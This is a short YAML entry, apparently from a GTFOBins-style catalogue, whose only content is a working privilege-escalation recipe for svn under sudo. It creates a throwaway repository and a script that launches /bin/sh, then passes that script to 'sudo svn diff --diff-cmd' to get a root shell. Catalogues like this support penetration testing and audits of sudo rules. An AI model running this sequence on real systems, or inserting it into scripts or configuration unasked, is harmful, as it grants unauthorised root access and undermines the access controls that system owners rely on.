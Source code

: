 ```yaml
---
functions:
  sudo:
    - code: |
        TD=$(mktemp -d)
        svnadmin create $TD/pwn
        svn checkout file:///$TD/pwn $TD/project
        echo -e '#!/bin/bash\n/bin/sh' > $TD/shell
        chmod +x $TD/shell
        sudo svn diff --diff-cmd "$TD/shell"
---
```

